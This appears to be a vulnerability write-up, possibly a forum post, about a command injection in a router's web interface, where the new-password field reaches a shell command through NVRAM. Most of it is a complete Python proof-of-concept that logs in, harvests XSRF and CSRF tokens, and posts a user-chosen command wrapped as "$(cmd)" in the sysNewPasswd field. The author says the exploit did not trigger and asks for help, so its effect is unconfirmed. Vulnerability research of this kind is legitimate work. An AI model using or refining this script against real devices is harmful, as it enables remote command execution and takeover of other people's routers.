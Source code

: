 First, in function sub_31D4C, "http_passwd" is obtained through sub_16B04("sysNewPasswd") and stored in v26, then the value of v26 is stored in nvram through acosNvramConfig_set, and then the value of nvram is read. Finally, in function sub_6A384(), v6 through function acosNvramConfig_get() obtain the "http_passwd",then stacat() to v16, causing a command injection. 
![Alt text](1696075866626.png)
![Alt text](1696076104414.png)
and the poc is following:
<pre>
#!/usr/bin/python3

import requests
import base64
import re

target = input("Enter Target IP : ")
username = input("Enter Target username : ")
passwd = input("Enter Target passwd : ")
cmd = input("Enter you want cmd : ")

username_passwd = username + ":" + passwd
auth = base64.b64encode(username_passwd.encode('utf-8')).decode("utf-8")
print(auth)

#request 1 : get XSRF_TOKEN
burp0_url = "http://" + target + ":80/PWD_password.htm"
burp0_cookies = {"XSRF_TOKEN": "2267229739"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic 123123", "Connection": "close",  "Upgrade-Insecure-Requests": "1"}
response1 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

if 'Set-Cookie' in response1.headers:
    set_cookie = response1.headers['Set-Cookie']
    print(f'The Set-Cookie value is: {set_cookie}')
else:
    print('No Set-Cookie field in the response header')

pattern = r'(?<=\=)([^;]*)'
XSRF_TOKEN = re.findall(pattern, set_cookie)[0]
print(XSRF_TOKEN)

#request 2 : get csrf_id
burp0_cookies = {"XSRF_TOKEN": XSRF_TOKEN}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic " + auth, "Connection": "close", "Upgrade-Insecure-Requests": "1"}
response2 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
pattern = r'cgi\?id=([\w\d]+)'
csrf_id = re.search(pattern, response2.text).group(1)
print("csrf_id is :" + csrf_id)

#request 3 : send payload
burp0_url = "http://" + target + ":80/password.cgi?id=" + csrf_id
burp0_data = {"apply": "Apply", "sysOldPasswd": "Qwer1234", "sysNewPasswd": "$(" + cmd + ")"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "text/plain", "Origin": "http://" + target, "Authorization": "Basic " + auth, "Connection": "close", "Upgrade-Insecure-Requests": "1"}

response3 = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

print('end!!!')

</pre>
However, nothing happens after I use the test case. I am very confused and hope you can discuss it with me.
